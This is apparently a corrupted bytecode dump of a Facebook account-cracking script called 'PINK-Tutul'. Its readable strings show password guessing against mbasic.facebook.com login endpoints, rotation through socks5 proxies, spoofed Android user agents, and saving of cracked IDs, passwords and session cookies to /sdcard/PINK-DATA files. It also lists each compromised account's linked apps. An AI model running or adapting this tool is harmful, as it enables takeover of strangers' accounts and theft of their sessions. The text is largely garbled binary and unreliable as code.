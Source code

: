 � d;|� dO|� �}t-|d<d/�}t.t-|dPd1�� td7 aW  nnW qKW qK tj4j5�y\   t6�7dQ� Y qKw td7 ad S )RNr   �%r  �	socks5://�?   
%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬�mbasic.facebook.comrO   r  r
  r  r  r  r  zhttps://mbasic.facebook.com/r  r  r  r  r  r  r   r   r!  r"  r#  r�   r�   r1  �=https://mbasic.facebook.com/login/device-based/password/?uid=z6&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdrr2  r3  ri   Fr4  r'  c                 S   r(  r)  rL   r*  rL   rL   rM   r.  
  r/  zcracktouch.<locals>.<listcomp>r0  r6  r�   r�   r<   �[Tutul] ID       : � [Tutul] PASSWORD : rn   ro   �
PINK-Tutul CP�r�   �/sdcard/PINK-DATA/CP/rJ   r7  r�   ��SupportsFresco=1 Dalvik/2.1.0 (Linux; U; Android 6.0.1; SM-J210F Build/MMB29Q) Source/1 [FBAN/EMA;UNITY_PACKAGE/342;FBBV/107586706;FBAV/172.0.0.8.182;FBDV/SM-J210F;FBLC/id_ID;FBOP/20]r�   c                 S   r(  r)  rL   r*  rL   rL   rM   r.    r/  z/sdcard/4MBF-DATA/OK/�
[Tutul] PASSWORD : �
[Tutul] COOKIES  : r�   z
PINK-Tutul OKc                 S   r(  r)  rL   r*  rL   rL   rM   r.  )  r/  �/sdcard/PINK-DATA/OK/r�   �>https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive�rk   r�   �<https://mbasic.facebook.com/settings/apps/tabbed/?tab=active�<
[bold cyan][Tutul] LIST ACTIVE APPLICATIONS :[/bold cyan] 
�`</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>�[bold cyan][r�   r   r   �
[/bold cyan]
�@
[bold yellow][Tutul] LIST EXPIRED APPLICATIONS :[/bold yellow]
�[bold yellow][�[/bold yellow]
�[bold green][Tutul] ID       : �[/bold green]
�&[bold green]PINK-Tutul OK[/bold green]r�   )8r�   r�   r^   r�   �kkr�   r�   r�   r8  r�   r�   r<  r@   r;  rB   r�   rY   rZ   rH   r  r  r�   rG   r�   r[   r�   r�   rC   rE   r�   rD   r�   r@  rK  r=  rk   r>  r?  rA  �oprekrB  rA   �ceker�princpr   r�   r�   r=   r�   �	taplikasir�   rF   rw   rx   r\   r]   ) r  r  �bi�pers�fffrG  rH  rI   rE  r�   rF  r�   rI  rJ  rL  �statuscp�	statuscp1�headapprM  rN  �statusok�	statusok1�user�infoakunrD  �cek2�cek�apkaktif�nok�muncul�hit�apkexprL   rL   rM   r  �  s�   


6
(:4
 


(

($(� �!�r  c           !      C   s  t �ttttttg�}td t	t
� }d}t �t�}dd| i}t �t�}t �t
�}t�� }	tj�d|tt	t
�ttt|�t|�tf � tj��  |D �]1}
�z|	j�dddd	|d
ddd
dd�
� |	�d|  d �}t�dt|j���d�t�dt|j���d�| dd|
d�}d� dd� |j!�"� �#� D ��}
|
d7 }
i dd�dd�dd�d d�d!d"�d#d	�d$d%�d&d'�d(|�d)d
�d*d+�d,d�d-d�d.d
�d/d|  d �d0d1�d2d3�d4d5i�}|	j$d6|d7|
i|d8|d9�}d:|j!�"� �%� v �rEd;t&v �rt'�(| d< |
 � t)| |
� n?d;t*v �r?t+d=� d>| � d?|
� �}t,|d@dA�}t-t,|dBdC�� t.dDt/ dE��| d< |
 d= � t'�(| d< |
 � td7 anW qKW  �n9dF|	j!�"� �%� v �rid(dGi}dHt0v �r�|j!�"� }d� dId� |	j!�"� �#� D ��}t.dJt1 dE��| d< |